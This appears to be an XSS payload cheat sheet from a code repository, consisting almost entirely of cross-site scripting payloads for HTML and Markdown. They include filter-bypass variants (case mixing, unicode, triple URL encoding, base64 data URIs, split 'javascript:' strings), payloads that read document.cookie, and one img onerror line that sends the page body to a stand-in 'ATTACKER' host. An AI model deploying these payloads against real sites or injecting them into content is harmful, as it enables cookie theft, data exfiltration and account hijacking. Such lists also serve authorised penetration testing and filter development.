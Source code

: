 ```html

<script>confirm.call(null,1)</script>

<script>prompt.call(null,1)</script>

<script>alert.apply(null, [1])</script>


<img src=x onerror=alert(new Image().src='http://ATTACKER/any?output='+document.body.innerHTML>

<sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//</div">

'"><>--!><--example'"><>--!><-->>>>>!--><img src=v onerror=alert(2)>{{7 *7}}{{constructor.constructor('alert(document.cookie)')()}}javascript:alert(12)

<!-- Bitwise operand before equal sign - URL encoded -->

<svg%20onload%0a||||=%27z=top%09;%0atop[/pro/.source+/mpt/.source]%28document.domain%29%20%27<li

<!-- unicode normalization payload -->

\u0022\u226F\u226Eimg src\u003dx onerror\u003dalert()\u226F

<!-- triple url encode -->

%252522+onmouseover=alert(1)+x=%252522s

<!-- XSS inside tynemce -->

<TABLE><TD><DIV><iframe/<META HTTP-EQUIV='refresh' CONTENT='0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgncmFmYWVsJyk8L3NjcmlwdD4K'>

```

### Markdown XSS Polyglot

```
[markdownxss click here](j a v a s c r i p t:prompt(document.cookie))[markdownxss click here](Javascript:self['\x61\x6c\x65\x72\x74']('\x58\x53\x53'))[ markdownxss click here](markdownxss click here)[markdownxss click here](j a v a s c r i p t:prompt(document.cookie))[markdownxss click here](javascript:prompt(document.cookie))[markdownxss click here](j a v a s c r i p t:prompt(document .cookie))![markdownxss click here](javascript:prompt(document.cookie))\&gt;[text](http://markdownxss.com \" [@markdownxss](/markdownxss) \")[markdownxss click here](javascript:this;alert(1))[markdownxss click here](javascript:this;alert(1))[markdownxss click here](javascript:this;alert(1))[markdownxss click here](Javascript: alert(1))[markdownxss click here](Javas%26%2399;ript:alert(1))[markdownxss click here](javascript:alert(1))[markdownxss click here](javascript:confirm(1)[ markdownxss click here](javascript://www.google.com%0Aprompt(1))[markdownxss click here](javascript://%0d%0aconfirm(1);com)[markdownxss click here](javascript:window. onerror=confirm;throw%201)[markdownxss click here](javascript:alert(document.domain))[markdownxss click here](javascript://www.google.com%0Aalert(1))[markdownxss click here]( 'javascript:alert(\"1\")')[markdownxss click here](JaVaScRiPt:alert(1))![markdownxss click here](https://www.google.com/image.png\"onload= \"alert(1))![markdownxss click here](\"onerror=\"alert(1))
```
